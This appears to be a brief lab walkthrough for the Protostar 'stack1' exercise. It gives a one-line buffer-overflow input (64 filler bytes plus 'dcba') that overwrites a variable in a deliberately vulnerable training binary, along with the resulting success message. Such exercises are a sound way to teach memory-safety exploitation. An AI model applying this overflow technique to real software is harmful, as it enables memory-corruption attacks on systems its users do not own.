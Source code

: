 Type the following: `./stack1 $(python -c "print 'a'*64+'dcba'")`

Sample output:
```bash
user@protostar:/opt/protostar/bin$ ./stack1 $(python -c "print 'a'*64+'dcba'")
you have correctly got the variable to the right value
```
